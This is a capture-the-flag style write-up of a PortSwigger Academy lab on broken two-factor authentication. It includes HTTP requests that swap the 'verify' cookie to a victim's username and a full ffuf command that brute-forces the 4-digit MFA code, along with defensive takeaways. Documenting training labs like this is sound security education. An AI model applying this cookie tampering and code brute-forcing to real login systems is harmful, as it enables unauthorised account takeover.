




# Lab 08 — 2FA Broken Logic

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Authentication
- **Lab:** 2FA broken logic
- **Difficulty:** Practitioner
- **Vulnerability:** Broken 2FA logic / improper user binding
- **Status:** Solved

---

## Objective

Access Carlos's account page by exploiting a flaw in the application's two-factor authentication logic.

Credentials provided:

```text
Username: wiener
Password: peter
Victim: carlos
```

The lab also provides access to the email server.

---

## Initial Reconnaissance

I started by logging in normally as `wiener:peter` and observing the complete authentication flow through Burp Suite.

I captured the login requests and sent relevant requests to Repeater for further analysis.

I inspected:

- HTTP methods
- Cookies
- Request parameters
- How data was transmitted
- Status codes
- Response bodies
- Redirects
- 2FA enforcement
- Authentication state

After the initial login, the application returned:

```http
Set-Cookie: verify=wiener; HttpOnly
```

I could not directly access the `My account` page without completing 2FA.

---

## Understanding the 2FA Flow

The application used a separate verification step after the username/password authentication.

The MFA request was a `POST` request containing the MFA code:

```text
mfa-code=<code>
```

The request also contained cookies including:

```text
verify=wiener
session=<session>
```

This led to the hypothesis that the `verify` cookie was being used to identify the account currently undergoing 2FA verification.



---

## Testing 2FA Enforcement

I first checked whether the 2FA step could simply be skipped.

Attempting to access the account page directly without completing the verification was unsuccessful.

Therefore, the application did enforce the 2FA step at this stage.

I then investigated how the application associated the MFA code with the user.

---

## Testing the `verify` Cookie

The normal verification request contained:

```http
Cookie: verify=wiener
```

I changed the value to:

```http
Cookie: verify=carlos
```

while keeping Wiener's MFA code.

The server returned:

```text
Incorrect security code
```

This demonstrated that the application was processing the MFA verification in the context of Carlos when `verify=carlos` was supplied.

Wiener's MFA code naturally did not work for Carlos.



---

## Testing the Session Dependency

I then tested whether the original session cookie was actually required during MFA verification.

### Removing the `verify` cookie

Removing the `verify` cookie resulted in:

```text
Internal Server Error
```

This demonstrated that the `verify` value was important to the verification process.

### Removing the session cookie

I then removed only the session cookie while keeping:

```text
verify=wiener
```

and supplied the correct Wiener MFA code.

The application returned:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=<new session>
```

This demonstrated that the existing session was not required to complete the MFA verification.

The application was capable of creating a new authenticated session after successful MFA verification.

---

## Identifying the Logic Flaw

The important finding was that the application relied on the client-controlled:

```text
verify=<username>
```

value to determine which account was undergoing MFA verification.

This meant that the MFA verification state was not securely bound to the original authenticated session and user identity.

The authentication flow effectively allowed the verification target to be changed from:

```text
verify=wiener
```

to:

```text
verify=carlos
```

The MFA code still had to be correct for the selected account, but the application allowed the attacker to target Carlos's MFA process.

---

## Testing MFA Brute Force

After identifying that the verification target could be changed to Carlos, I investigated whether the MFA endpoint had effective brute-force protection.

I tested repeated MFA requests and did not observe an effective attempt limit that prevented continued attempts.

The MFA code was a 4-digit value, giving a possible search space of:

```text
0000 - 9999
```

or:

```text
10,000 possible codes
```

Burp Suite Community Edition's Intruder would have been unnecessarily slow for this high-volume attack.

Therefore, I used **ffuf** to automate the MFA code testing.

---

## Generating the MFA Code List

I generated all 4-digit values:

```bash
seq -w 0000 9999 > mfa-codes.txt
```

The resulting list contained:

```text
0000
0001
0002
...
9998
9999
```

---

## Baseline Response

Before launching the brute-force attack, I tested known-invalid codes manually.

For example:

```text
mfa-code=0000
```

returned:

```text
HTTP/2 200 OK
```

with a response length of approximately:

```text
3184 bytes
```

Another invalid code such as:

```text
mfa-code=0002
```

also returned:

```text
HTTP/2 200 OK
```

with the same response length.

This established the normal failed-MFA response.

---

## ffuf MFA Brute Force

I used ffuf with the MFA code as the fuzzing position.

The request was:

```bash
ffuf -u 'https://<LAB-ID>.web-security-academy.net/login2' \
  -X POST \
  -H 'Cookie: verify=carlos; session=<session>' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'mfa-code=FUZZ' \
  -w mfa-codes.txt \
  -mc 302
```

The important configuration was:

```text
FUZZ → MFA code
-mc 302 → only display HTTP 302 responses
```

The application returned `200 OK` for incorrect MFA codes.

A successful MFA verification produced a `302 Found` redirect.

Therefore, `302` was used as the success indicator.

---

## MFA Code Discovery

The ffuf attack identified:

```text
0300
```

as the code producing the successful response.

The important distinction was:

```text
Incorrect code → 200 OK
Correct code   → 302 Found
```

The code was then manually tested to verify that the result was genuine.



---

## Final Verification

The discovered MFA code was:

```text
0300
```

with the verification target:

```text
carlos
```

I manually verified the code and successfully accessed Carlos's account page.

The lab was then marked as solved.



---

## Attack Flow

```text
Login normally as wiener
        ↓
Observe 2FA flow
        ↓
Identify verify=wiener
        ↓
Test whether 2FA can be skipped
        ↓
2FA is enforced
        ↓
Investigate verify cookie
        ↓
Change verify=wiener → verify=carlos
        ↓
Application processes MFA in Carlos's context
        ↓
Test session dependency
        ↓
Existing session not required for successful MFA
        ↓
Test MFA brute-force protection
        ↓
No effective attempt limitation observed
        ↓
Generate 0000–9999
        ↓
ffuf brute force
        ↓
0300 → HTTP 302
        ↓
Manual verification
        ↓
Carlos account accessed
        ↓
Lab solved
```

---

## Vulnerability

The core vulnerability was **broken 2FA logic caused by improper binding of the verification process to the authenticated user/session**.

The application trusted the client-controlled:

```text
verify=<username>
```

value to determine which account was undergoing MFA verification.

The existing authentication session was also not required for successful MFA verification; the application could create a new authenticated session after successful verification.

Combined with the absence of effective MFA brute-force protection, this allowed the MFA code for Carlos to be discovered.

---

## Burp Suite Techniques Used

### Repeater

Used to:

* Inspect the authentication flow.
* Examine cookies.
* Test 2FA enforcement.
* Modify the `verify` cookie.
* Test session-cookie dependency.
* Compare MFA responses.

### Intruder

Burp Intruder was considered for the MFA brute-force stage but was not used because Community Edition would make the 10,000-request attack unnecessarily slow.

### ffuf

Used instead to efficiently fuzz the 4-digit MFA code space.

The fuzzing position was:

```text
mfa-code=FUZZ
```

The success condition was:

```text
HTTP 302 Found
```

---

## Methodology Lessons

### Understand the authentication state

Rather than immediately brute-forcing the MFA code, I first mapped:

```text
username/password
        ↓
verify cookie
        ↓
MFA code
        ↓
authenticated session
```

This revealed where the application was maintaining authentication state.

### Investigate what identifies the user

A key discovery was:

```text
verify=wiener
```

The important question became:

> What happens if the verification identity is changed?

Changing it to:

```text
verify=carlos
```

caused the MFA process to operate in Carlos's context.

### Test session dependency

Removing the existing session cookie demonstrated that the MFA verification process could create a new authenticated session after successful verification.

This showed that the MFA process was not properly tied to the original authentication session.

### Don't brute-force before understanding the mechanism

The MFA code could have been attacked immediately, but investigating the authentication state first revealed the actual logic flaw.

### Choose tools according to the task

Burp Suite was useful for understanding and manipulating the authentication flow.

ffuf was better suited for the high-volume 4-digit code search because Burp Community Edition's Intruder would be considerably slower.

---

## Key Takeaways

1. 2FA must be bound to the correct authenticated user.
2. Client-controlled identity parameters such as `verify` should not be trusted for authentication decisions.
3. The MFA verification process should be securely associated with the original authentication session.
4. Removing the existing session should not allow an attacker to create a new authenticated session through an independently controlled verification identity.
5. MFA codes should have effective brute-force protection.
6. A 4-digit MFA code has only 10,000 possible combinations.
7. Response status differences can be useful when automating authentication testing.
8. `302 Found` was the success indicator in this application's MFA flow.
9. ffuf can be a practical alternative to Burp Intruder for high-volume testing.
10. The exploit server was investigated but was not used to solve this lab, so no assumption is made about whether it was relevant to the vulnerability.
11. Authentication testing should first map the complete state transition before attempting brute force.

---

## Discovered Values

```text
Verification target: carlos
MFA code: 0300
```

---

## Final Result

Successfully identified the broken 2FA logic, changed the verification context to Carlos, brute-forced the 4-digit MFA code using ffuf, verified the code manually, and accessed Carlos's account page.

**Lab solved.**
